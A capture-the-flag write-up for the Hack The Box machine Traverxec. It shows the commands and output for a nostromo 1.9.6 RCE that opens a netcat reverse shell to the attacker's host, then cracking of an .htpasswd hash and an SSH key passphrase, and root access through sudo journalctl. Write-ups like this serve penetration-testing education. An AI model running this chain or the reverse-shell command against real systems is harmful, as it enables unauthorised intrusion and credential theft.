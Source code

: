 ```yaml
---
title: Traverxec - Hack The Box
author: "0xPThree"
description: "Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."
date: 2019-11-18
image: images/traverxec_logo.png
categories: [hackthebox, ]
format: html
editor: visual
jupyter: python3
toc: true
---
```


![](images/traverxec_logo.png)

"Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."

----------------


   ██╗   ██╗███████╗███████╗██████╗
   ██║   ██║██╔════╝██╔════╝██╔══██╗
   ██║   ██║███████╗█████╗  ██████╔╝
   ██║   ██║╚════██║██╔══╝  ██╔══██╗
   ╚██████╔╝███████║███████╗██║  ██║
    ╚═════╝ ╚══════╝╚══════╝╚═╝  ╚═╝

1. nmap -Pn -sC -sV -n ai.htb
    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
    | ssh-hostkey:
    |   2048 aa:99:a8:16:68:cd:41:cc:f9:6c:84:01:c7:59:09:5c (RSA)
    |   256 93:dd:1a:23:ee:d7:1f:08:6b:58:47:09:73:a3:88:cc (ECDSA)
    |_  256 9d:d6:62:1e:7a:fb:8f:56:92:e6:37:f1:10:db:9b:ce (ED25519)
    80/tcp open  http    nostromo 1.9.6
    |_http-server-header: nostromo 1.9.6
    |_http-title: TRAVERXEC
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

  nmap -Pn -sV -n -p- traverxec.htb
    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
    80/tcp open  http    nostromo 1.9.6
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

  nmap -Pn -sV -n -sU traverxec.htb
    PORT     STATE         SERVICE  VERSION
    5353/udp open|filtered zeroconf

2. Enum with Dirb and Nikto, also dirb -X .html for html-extension-files
    .. Server: nostromo 1.9.6


3. Googling nostromo 1.9.6 there is a known RCE vuln (CVE-2019-16278). Download the script and execute.
    root@p3:/opt/htb/machines/traverxec# ./cve-2019-16278.sh traverxec.htb 80 nc -e /bin/sh 10.10.14.10 4488

    root@p3:/opt/shells# nc -lvnp 4488
      listening on [any] 4488 ...
      connect to [10.10.14.10] from (UNKNOWN) [10.10.10.165] 57834
      id
      uid=33(www-data) gid=33(www-data) groups=33(www-data)

4. Upgrade the shell
    python -c 'import pty;pty.spawn("/bin/bash")'
    ctrl + z
    stty raw -echo
    fg
    <ENTER>
    <ENTER>
    export TERM=xterm

    www-data@traverxec:/home$ cd david/
    www-data@traverxec:/home/david$ ls -al
    ls: cannot open directory '.': Permission denied

5. Looking for creds for David, start by looking at the webserver - /var/nostromo/conf/
    www-data@traverxec:/var/nostromo/conf$ ls -al
      total 20
      drwxr-xr-x 2 root daemon 4096 Oct 27 16:12 .
      drwxr-xr-x 6 root root   4096 Oct 25 14:43 ..
      -rw-r--r-- 1 root bin      41 Oct 25 15:20 .htpasswd
      -rw-r--r-- 1 root bin    2928 Oct 25 14:26 mimes
      -rw-r--r-- 1 root bin     498 Oct 25 15:20 nhttpd.conf
    www-data@traverxec:/var/nostromo/conf$ cat .htpasswd
      david:$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/

    The password looks like a md5crypt (hash-mode 500), according to hashcat examples page.

6. Crack the hash using hashcat.
    root@p3:/opt/htb/machines/traverxec# hashcat -a0 -m500 hash.txt /usr/share/wordlists/rockyou.txt -o cracked.txt --force
      Session..........: hashcat
      Status...........: Cracked
      Hash.Type........: md5crypt, MD5 (Unix), Cisco-IOS $1$ (MD5)
      Hash.Target......: $1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/
      Time.Started.....: Mon Nov 18 10:41:10 2019 (6 secs)
      Time.Estimated...: Mon Nov 18 10:41:16 2019 (0 secs)
      Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
      Guess.Queue......: 1/1 (100.00%)
      Speed.#1.........:  1778.3 kH/s (13.23ms) @ Accel:256 Loops:125 Thr:32 Vec:1
      Recovered........: 1/1 (100.00%) Digests, 1/1 (100.00%) Salts
      Progress.........: 10911744/14344385 (76.07%)
      Rejected.........: 0/10911744 (0.00%)
      Restore.Point....: 10616832/14344385 (74.01%)
      Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:875-1000
      Candidates.#1....: Sabo2008 -> LilHaiti1
      Hardware.Mon.#1..: Temp: 56c Util: 67% Core:1635MHz Mem:6000MHz Bus:16
    root@p3:/opt/htb/machines/traverxec# cat cracked.txt
      $1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/:Nowonly4me

    NOTE: Creds david:Nowonly4me

7. The creds above doesn't seem to be usable anywhere, so looking further in the config-file we find that homedirs are set
   Browsing to http://traverxec.htb/~david/ gives us a landing page where we can't do anything. This landing page is located
   as specified within the nostromo configuration file - /home/david/public_www.

   Trying to browse it locally however gives us another result.

   root@p3:/opt/htb/machines/traverxec# nc -lvnp 4488

    www-data@traverxec:/usr/bin$ export TERM=xterm
    www-data@traverxec:/usr/bin$ ls -alR /home/david/public_www/
    /home/david/public_www/:
      total 16
      drwxr-xr-x 3 david david 4096 Oct 25 15:45 .
      drwx--x--x 5 david david 4096 Oct 25 17:02 ..
      -rw-r--r-- 1 david david  402 Oct 25 15:45 index.html
      drwxr-xr-x 2 david david 4096 Oct 25 17:02 protected-file-area

    /home/david/public_www/protected-file-area:
      total 16
      drwxr-xr-x 2 david david 4096 Oct 25 17:02 .
      drwxr-xr-x 3 david david 4096 Oct 25 15:45 ..
      -rw-r--r-- 1 david david   45 Oct 25 15:46 .htaccess
      -rw-r--r-- 1 david david 1915 Oct 25 17:02 backup-ssh-identity-files.tgz
    www-data@traverxec:/usr/bin$

8. Extract the .tgz to /dev/shm and recover the private SSH-key
    www-data@traverxec:/dev/shm$ tar -xvzf /home/david/public_www/protected-file-area/backup-ssh-identity-files.tgz
      home/david/.ssh/
      home/david/.ssh/authorized_keys
      home/david/.ssh/id_rsa
      home/david/.ssh/id_rsa.pub

9. Copy id_rsa locally, change it to hash-format using sshng2john, and then crack it.
    root@p3:/usr/share/john# ./sshng2john.py /opt/htb/machines/traverxec/id_rsa > /opt/htb/machines/traverxec/id_rsa.hash
    root@p3:/opt/htb/machines/traverxec# john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash
      Using default input encoding: UTF-8
      Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
      Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
      Cost 2 (iteration count) is 1 for all loaded hashes
      Will run 12 OpenMP threads
      Note: This format may emit false positives, so it will keep trying even after
      finding a possible candidate.
      Press 'q' or Ctrl-C to abort, almost any other key for status
      hunter           (/opt/htb/machines/traverxec/id_rsa)
      1g 0:00:00:01 DONE (2019-11-18 15:45) 0.5291g/s 7588Kp/s 7588Kc/s 7588KC/s  0125457423 ..*7¡Vamos!
      Session completed

10. Login with cracked creds (david:hunter) and grab user.txt
    root@p3:/opt/htb/machines/traverxec# ssh david@traverxec.htb -i id_rsa
    Enter passphrase for key 'id_rsa':
    Linux traverxec 4.19.0-6-amd64 #1 SMP Debian 4.19.67-2+deb10u1 (2019-09-20) x86_64

    david@traverxec:~$ cat user.txt
      7db0****************************


██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██████╗  ██████╗  ██████╗ ████████╗
   ██╔══██╗██╔═══██╗██╔═══██╗╚══██╔══╝
   ██████╔╝██║   ██║██║   ██║   ██║
   ██╔══██╗██║   ██║██║   ██║   ██║
   ██║  ██║╚██████╔╝╚██████╔╝   ██║
   ╚═╝  ╚═╝ ╚═════╝  ╚═════╝    ╚═╝


1. Enumerating the homedir of david and we find a script for statistics and data collection, server-stats.sh.
   Looking through the code we can see that they execute a line as sudo
      /usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service | /usr/bin/cat

2. The command journalctl is running as root, and it used with less - that is interactive.
   Running the command by ourselves gives us interaction, reading on gtfobins we can create a shell here by typing !/bin/sh

   david@traverxec:~/bin$ /usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service
     -- Logs begin at Tue 2019-11-19 06:23:10 EST, end at Tue 2019-11-19 07:53:45 EST. --
     Nov 19 07:09:13 traverxec sudo[2226]: pam_unix(sudo:auth): conversation failed
     Nov 19 07:09:13 traverxec sudo[2226]: pam_unix(sudo:auth): auth could not identify password for [www-data]
     Nov 19 07:09:13 traverxec sudo[2226]: www-data : command not allowed ; TTY=pts/3 ; PWD=/var/nostromo ; USER=root ; COMMAND=list
     Nov 19 07:18:33 traverxec su[2387]: pam_unix(su:auth): authentication failure; logname= uid=33 euid=0 tty=pts/3 ruser=www-data rhost=
     Nov 19 07:18:36 traverxec su[2387]: FAILED SU (to bin) www-data on pts/3
     !/bin/sh
   # id
     uid=0(root) gid=0(root) groups=0(root)
   # cat /root/root.txt
     9aa3****************************


██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██╗███╗   ██╗███████╗ ██████╗ ██████╗ ███╗   ███╗ █████╗ ████████╗██╗ ██████╗ ███╗   ██╗
   ██║████╗  ██║██╔════╝██╔═══██╗██╔══██╗████╗ ████║██╔══██╗╚══██╔══╝██║██╔═══██╗████╗  ██║
   ██║██╔██╗ ██║█████╗  ██║   ██║██████╔╝██╔████╔██║███████║   ██║   ██║██║   ██║██╔██╗ ██║
   ██║██║╚██╗██║██╔══╝  ██║   ██║██╔══██╗██║╚██╔╝██║██╔══██║   ██║   ██║██║   ██║██║╚██╗██║
   ██║██║ ╚████║██║     ╚██████╔╝██║  ██║██║ ╚═╝ ██║██║  ██║   ██║   ██║╚██████╔╝██║ ╚████║
   ╚═╝╚═╝  ╚═══╝╚═╝      ╚═════╝ ╚═╝  ╚═╝╚═╝     ╚═╝╚═╝  ╚═╝   ╚═╝   ╚═╝ ╚═════╝ ╚═╝  ╚═══╝

Journalctl
  https://gtfobins.github.io/gtfobins/journalctl/
